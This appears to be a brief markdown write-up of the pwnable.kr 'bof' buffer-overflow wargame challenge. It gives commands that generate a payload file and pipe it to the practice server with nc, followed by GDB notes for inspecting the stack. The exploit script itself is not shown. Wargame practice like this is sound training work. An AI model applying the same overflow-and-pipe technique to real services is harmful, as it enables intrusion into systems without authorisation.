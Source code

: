 # `bof` Solution

Here it is crucial to do the `stdin` redirection right (pipe is closed using other methods, TO-DO: needs more research):

    python splt.py > payload.bin
    cat payload.bin - | nc pwnable.kr 9000

# GDB Notes

    checksec
    disassemble key
    disassemble func
    run < <(python splt.py)
    file
    info file
    break func
    run < <(python splt.py)
    until *0x56555654
    print/x [ebp + 8]
    print/x [$ebp + 8]
    stack
    hexdump $sp
    hexdump $sp+8
    hexdump $ebp+8
